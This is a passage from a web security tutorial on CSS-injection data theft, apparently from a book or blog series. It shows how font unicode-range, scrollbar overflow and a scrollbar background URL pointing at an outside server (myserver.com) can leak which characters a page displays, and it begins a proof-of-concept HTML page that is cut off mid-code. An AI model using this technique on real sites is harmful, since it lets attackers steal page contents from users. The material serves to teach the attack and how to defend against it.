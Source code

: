 ![height](pics/18-02.png)

It is clear that the character A has a greater height than the other characters. According to our CSS settings, if the content height exceeds the container height, a scrollbar will appear. Although it may not be visible in the screenshot above, the ABC below has a scrollbar, while the DBC above does not.

Furthermore, we can set an external background for the scrollbar:

``` css
div::-webkit-scrollbar {
    background: blue;
}

div::-webkit-scrollbar:vertical {
    background: url(https://myserver.com?q=a);
}
```

This means that if the scrollbar appears, our server will receive a request. If the scrollbar does not appear, no request will be received.

Furthermore, when I apply the `fa` font to the div, if the character A appears on the screen, a scrollbar will appear, and the server will receive a request. If the character A does not appear on the screen, nothing will happen.

Therefore, if we repeatedly load different fonts, the server can know what characters are displayed on the screen, which is similar to what we achieved using `unicode-range`.

So how do we solve the order problem?

We can first reduce the width of the div to only display one character, so other characters will be placed on the second line. Then, we can use the [::first-line](https://developer.mozilla.org/en-US/docs/Web/CSS/::first-line) selector to adjust the style specifically for the first line, like this:

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 0px;
        height: 40px;
        width: 20px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }

      div::first-line{
```